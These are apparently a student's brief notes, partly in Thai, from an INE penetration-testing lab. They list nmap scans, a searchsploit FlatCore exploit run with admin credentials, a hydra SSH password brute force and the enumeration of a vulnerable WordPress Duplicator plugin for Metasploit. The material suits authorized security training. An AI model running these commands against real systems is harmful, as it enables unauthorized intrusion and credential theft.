 `nmap -sC -sV target1.ine.local`

`searchsploit flatcore`
case พิเศษ อันนี้ เซิซไม่เจอใน msfconsole ตรงๆ ต้องจดเลขไว้
php/webapps/50262.py

`searchsploit -m 50262`
ต้องเอามารันเอง 

`python3 50262.py http://target1.ine.local admin password1`


--

`ls -l /home`
drwxr-x--- 1 iamaweakuser iamaweakuser 4096 Oct  6 17:37 iamaweakuser

brute force
`hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://target1.ine.local`

--

`nmap -sC -sV target2.ine.local`

`nmap -p80 --script http-wordpress-enum target2.ine.local`
duplicator 1.3.26

`search duplicatator`
`use0`
`options`

